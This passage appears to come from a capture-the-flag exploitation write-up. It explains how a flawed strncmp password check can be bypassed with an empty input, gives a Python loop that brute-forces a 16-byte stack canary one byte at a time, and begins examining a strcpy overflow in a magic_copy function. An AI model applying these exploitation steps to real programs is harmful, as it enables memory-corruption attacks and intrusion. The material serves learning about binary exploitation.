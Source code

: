 ```c
  return;
}
```

So basically, this checks to see if our input matches the 16 bytes generated by `/dev/urandom`, however it does so in a really bad manner.  The check first checks how long our password is with `strlen` then performs `strncmp` with our `strlen` result as `n` (basically does `strncmp(local_88,param_1, strlen(local_88))`), meaning it will only compare the first n bytes of the password (`param_1` which gets points to our stack cookie).

So, if we enter zero bytes (just hit enter), we will pass the password check.

Even more problematic, we can use this to perform a byte-by-byte brute-force of the stack cookie!  So if we can acquire the stack-cookie, and then find some overflow vulnerability, we can use the stack cookie to bypass the check at the end of the main function. 
```python
def brute_force():
        urandombytes = []
        for i in range(0x10):
                length = len(urandombytes)
                print(f'Bytes so far: {urandombytes}')
                for x in range(1, 256):
                        p.sendline(b'1')
                        p.recv()
                        p.sendline(bytes(urandombytes + [x]))
                        result = p.recv()
                        if result != b'Failed !\n>> ':
                                urandombytes.append(x)
                                p.sendline(b'1')
                                p.recv()
                                break
        print(urandombytes)
        return urandombytes
canary = brute_force() # now we have the stack cookie/canary!!!
```

### Finding a overflow & finding a leak

Even with the stack cookie recovered, we still need to find some overflow or arbitrary write primitive to perform control flow hiijacking.  Looking at `magic_copy(local_68);` (which we can execute after satisfying the flawed password check), we can find some very interesting code:

```c
void magic_copy(char *param_1)
{
  char local_88 [128];
  
  printf("Copy :");
  FUN_00100ca0(local_88,0x3f); // <-- this boils down to basically reading 0x3f bytes into local_88
  strcpy(param_1,local_88);
  puts("It is magic copy !");
  return;
}
```
